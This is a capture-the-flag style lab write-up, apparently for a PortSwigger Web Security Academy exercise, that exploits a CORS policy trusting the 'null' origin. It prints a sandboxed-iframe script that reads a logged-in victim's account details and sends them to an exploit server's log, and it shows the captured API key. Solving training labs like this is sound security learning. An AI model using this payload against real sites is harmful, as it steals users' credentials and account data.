 ![image](https://github.com/udayk01/Web-Security/assets/52235763/2d167b03-d05c-4e77-a305-ac5fa27505c6)

## Solution:

> Check intercept is off, then use Burp's browser to log in to your account. Click "My account".

![image](https://github.com/udayk01/Web-Security/assets/52235763/c1b53cdf-e631-4817-ac27-b4c19d75df59)

> Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/udayk01/Web-Security/assets/52235763/60b4960d-d365-412d-90c4-ff64c0819ead)

> Send the request to Burp Repeater, and resubmit it with the added header ```Origin: null```.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8ab705b0-2890-4952-9d73-676b98c76aeb)

>> Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.

> In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with the URL for your unique lab URL and YOUR-EXPLOIT-SERVER-ID with the exploit server ID:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
![image](https://github.com/udayk01/Web-Security/assets/52235763/c079d6f9-8561-4d05-986c-6a80510e1722)

>> Notice the use of an iframe sandbox as this generates a null origin request.

> Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.

![image](https://github.com/udayk01/Web-Security/assets/52235763/afdeb841-1ac7-4163-83bb-c4bab4a530b6)

> Go back to the exploit server and click "Deliver exploit to victim".

> Click "Access log", retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8f4a9cd5-ea3f-414a-912b-d58386528bff)

![image](https://github.com/udayk01/Web-Security/assets/52235763/b4281930-2bbb-40ca-9e64-21fd1b66579a)

> API key: ``` NVPr6QPCDILosL40GAbK6YxGvuHT8e0B```

![Screenshot 2024-04-20 121206](https://github.com/udayk01/Web-Security/assets/52235763/df4f2286-2e58-48ad-bebd-64cc66b70049)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/7cd5f1e0-72cf-4b09-a1e8-34de1e16dde1)



